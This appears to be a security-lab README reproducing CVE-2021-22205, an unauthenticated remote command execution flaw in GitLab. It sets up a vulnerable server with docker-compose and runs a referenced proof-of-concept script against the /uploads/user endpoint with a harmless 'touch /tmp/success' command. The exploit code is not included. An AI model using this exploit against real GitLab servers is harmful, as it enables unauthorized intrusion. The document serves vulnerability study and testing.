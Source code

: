 # GitLab Unauthenticated Remote Commands Execution (CVE-2021-22205)

[中文版本(Chinese version)](README.zh-cn.md)

GitLab is a web-based DevOps lifecycle tool that provides a Git repository manager providing wiki, issue-tracking and continuous integration and deployment pipeline features.

An issue has been discovered in GitLab CE/EE affecting the versions starting from 11.9. GitLab was not properly validating image files that is passed to a file parser which resulted in an unauthenticated remote command execution.

References:

- https://hackerone.com/reports/1154542
- https://devcraft.io/2021/05/04/exiftool-arbitrary-code-execution-cve-2021-22204.html
- https://security.humanativaspa.it/gitlab-ce-cve-2021-22205-in-the-wild/
- https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2021/CVE-2021-22205.yaml

## Vulnerable environment

Execute following command to start a GitLab Community Server 13.10.1:

```
docker-compose up -d
```

After the server is started, browse the `http://your-ip:8080` to see the website.

## Exploit

The api endpoint `/uploads/user` is an unauthenticated interface. Attack the server through the [poc.py](poc.py):

```
python poc.py http://your-ip:8080 "touch /tmp/success"
```

![](1.png)

`touch /tmp/success` has been executed successfully:

![](2.png)
